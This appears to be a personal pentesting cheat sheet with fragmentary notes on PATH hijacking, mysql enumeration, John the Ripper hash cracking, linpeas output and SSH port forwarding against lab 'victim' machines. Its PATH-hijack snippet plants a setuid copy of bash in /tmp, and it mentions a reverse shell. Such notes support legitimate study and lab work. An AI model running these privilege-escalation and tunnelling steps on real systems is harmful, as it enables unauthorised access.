 ```yaml
---
sort : 1
--- 
```



# Soon... 


Network/wireless/physical/Firewall/Social Eng/ .... Penetration testing ?? 
<!-- https://purplesec.us/types-penetration-testing/ -->


<!-- https://start.me/p/PwmnBd/web --> ALL 
<!-- https://www.mindmeister.com/1470766611/web-app-pentest?fullscreen=1 -->



Finding real IP behind CloudFlare or Tor
<!-- https://www.secjuice.com/finding-real-ips-of-origin-servers-behind-cloudflare-or-tor/ -->



# be curious and not just a script kiddie.














# Attacks list

* PATH hijack  
    ```bash
    cd /tmp 
    export PATH=/tmp:$PATH

    echo "reverse shell" > bin
    # OR
    echo -ne '#!/bin/bash\ncp /bin/bash /tmp/bash\nchmod 4755 /tmp/bash' > bin 
    
    chmod +x bin
    ...

    ```
* Execution After Redirect (EAR)
* mysql ?? 
    ``` 
    mysql -u root -p 'passwd between qoutes' -e 'show databases;'
    mysql -u root -p 'passwd between qoutes' databaseName -e 'show tables;'
    mysql -u root -p 'passwd between qoutes' databaseName -e 'select * from table;' 
    ```







# Hash cracking
```bash
# md5   $1$ 

echo "hash" > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt --format=md5crypt-long hash.txt



# if you know the salt 




```

Single Page Application (SPA)" that was made using Vue Js.






# Linpeas.sh Analysis !! 
```bash
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -      
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:1337          0.0.0.0:*               LISTEN      1837/node /u	sr/bin/ 
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -   
```


this shows the running services (maybe another web server ^^)

```
/etc/apache2/sites-enabled 
/etc/nginx/sites-enabled
```

# SSH Tunneling / port forwarding

https://linuxhint.com/ssh-port-forwarding-linux/

```bash
# local port forwarding : run on attacker box		
	
$ ssh -i User -L 8888:127.0.0.1:8000 User@10.10.11.105	==> after running it you will connect to the machine as a User ^^ 
$ id 
    uid=1001(User) gid=1001(User) groups=1001(User)

# go to the browser :: http://127.0.0.1:8888/   ===> forwarded to 127.0.0.1:8000 on the victim machine 

# means locally (on the attacker machine) bind my localhost with 8888 port to the service running on 127.0.0.1:8000 through this {ssh server} User@10.10.11.105
```

==> in /etc/sshd_config  ==> GateWayPorts yes ==> default is no   ////    must be yes

```bash
# remote port forwarding : run on victim box 		

$ ssh -R 8888:127.0.0.1:8000 Attacker@10.10.x.x

# means expose the local service (on the victime machine) running on port 8000 to port 8888 on this ssh server Attacker@10.10.x.x
```